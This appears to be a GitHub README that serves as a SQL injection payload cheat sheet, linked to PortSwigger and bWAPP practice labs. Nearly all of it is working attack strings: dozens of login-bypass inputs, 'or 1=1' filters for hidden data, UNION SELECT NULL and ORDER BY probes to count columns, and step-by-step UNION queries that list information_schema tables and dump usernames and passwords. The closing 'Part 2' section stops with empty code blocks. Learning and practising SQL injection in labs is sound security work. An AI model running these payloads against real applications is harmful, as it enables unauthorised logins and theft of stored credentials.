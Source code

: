 # Resources
- [Learn about SQL injection](https://portswigger.net/web-security/sql-injection)
- [Pracice SQLi on bWAPP](http://www.itsecgames.com/)

# Payloads

## Retriving hidden data
```sql
' or 1=1-- -
' or 1=1--
' --

```
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)

## Login bypassing
Note: Remember, sometimes you have to repleace 'admin' for another username. Here, 'admin' is just an example.
```sql
'-'
' '
'&'
'^'
'*'
' or 1=1 limit 1 -- -+
'="or'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
'-||0'
"-||0"
"-"
" "
"&"
"^"
"*"
'--'
"--"
'--' / "--"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 2 like 2
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' -- -
admin' #
admin'/*
admin' or '2' LIKE '1
admin' or 2 LIKE 2--
admin' or 2 LIKE 2#
admin') or 2 LIKE 2#
admin') or 2 LIKE 2--
admin') or ('2' LIKE '2
admin') or ('2' LIKE '2'#
admin') or ('2' LIKE '2'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin';-- azer 
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
- [How to bypass login authentication](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Determining the number of columns returned by the query with UNION SELECT NULL-- -
```sql
' UNION SELECT NULL-- -
' UNION SELECT NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
etc...
```
## Determining the number of columns returned by the query with UNION SELECT NULL--
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
' UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL--
etc...
```
## Determining the number of columns returned by the query with ORDER BY--
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
' ORDER BY 5--
' ORDER BY 6--
' ORDER BY 7--
' ORDER BY 8--
' ORDER BY 9--
' ORDER BY 10--
' ORDER BY 11--
' ORDER BY 12--
etc...
```
## Determining the number of columns returned by the query with ORDER BY-- -
```sql
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
' ORDER BY 4-- -
' ORDER BY 5-- -
' ORDER BY 6-- -
' ORDER BY 7-- -
' ORDER BY 8-- -
' ORDER BY 9-- -
' ORDER BY 10-- -
' ORDER BY 11-- -
' ORDER BY 12-- -
etc...
```
- [Practice this payload here](https://portswigger.net/web-security/sql-injection/union-attacks/lab-determine-number-of-columns)

## Listing the database contents on non-Oracle databases (Part 1)
1. Determinate the name of the databases
```sql
' UNION SELECT database()--
``` 
2. Determinate the number of columns usion UNION SELECT or ORDER BY
```sql
' UNION SELECT 'abc','def'--
' ORDER BY 2-- -
```
3. Determinate the tables into the database
```sql
' UNION SELECT table_name,NULL FROM information_schema.tables--
``` 
4. Determinate the columns stored into tables
```sql
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_abcdef'--
```
5. Once we have the information of the columns, we dump the information
```sql
' UNION SELECT username_abcdef, password_abcdef FROM users_abcdef--
```

## Listing the database contents on non-Oracle databases (Part 2)
1. Determinate the name of the databases
```sql
' UNION SELECT database()--
``` 
2. Determinate the number of columns usion UNION SELECT or ORDER BY
```sql
' UNION SELECT 'abc','def'--
' ORDER BY 2-- -
```
3. Determinate the tables into the database
```sql

``` 
4. Determinate the columns stored into tables
```sql

```
5. Once we have the information of the columns, we dump the information
```sql

```

